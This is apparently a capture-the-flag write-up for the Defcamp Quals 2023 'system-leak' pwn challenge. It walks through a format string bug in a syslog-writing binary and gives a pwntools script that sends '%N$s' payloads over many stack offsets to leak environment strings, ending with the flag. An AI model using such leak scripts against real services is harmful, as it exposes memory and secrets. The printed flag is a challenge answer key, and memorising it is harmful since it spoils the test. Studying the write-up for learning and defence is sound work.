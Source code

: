 ```yaml
---
title: system-leak
type: writeup
date: 2023-10-22T09:56:31+03:00
description: Writeup for system-leak [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Leak the entire system, but wait this is not zeenbleed.

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec syslog
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols	  No	0		4		syslog
```
All protections enabled! Wow! When I saw this initially I thought this will be a hard binary to exploit. So I went on and played with ``system-write`` first, lol. Please check that writeup for a full run-down of the binary.

The important thing to notice for this binary is the fact that ``syslog`` uses format strings. We have an arbitrary read through format string vulnerabilities. Since the description hints to leaking the whole system, the initial idea I had was to leak the whole stack and hope we get some ENV strings with the flag in them.

```c
	printf("Enter the message to write to syslog: ");
	fgets(local_218,0x200,stdin);
	fgets(local_218,0x200,stdin);
	syslog((int)local_222,local_218);
	closelog();
```

### Solution

The solution is just that - leaking strings from the stack for fun. We manually try different offsets and print strings in batches. I made a really quick, stupid script to do that:
```py
#!/usr/bin/env python3

from pwn import *

#target = process("./syslog")
target = remote("35.246.203.171", 31245)

lines = []

# Play around with this offset, it might crash at certain offsets because addresses are not dereferencible
for i in range(120, 1600):
    target.sendline(b"1")
    target.sendline(b"1") # priority

    payload = "%{}$s".format(i).encode()

    target.sendline(payload)

    target.sendline(b"2")
    target.recvuntil(b'syslog')
    lines.append(target.recvline())
    print(lines[-1])

print(lines)
target.interactive()
```

#### Flag

```CTF{ab8f8dff1ca8d424d56d3e8b41296cba0ba4e2a7985927b510fe2734dacee073}```
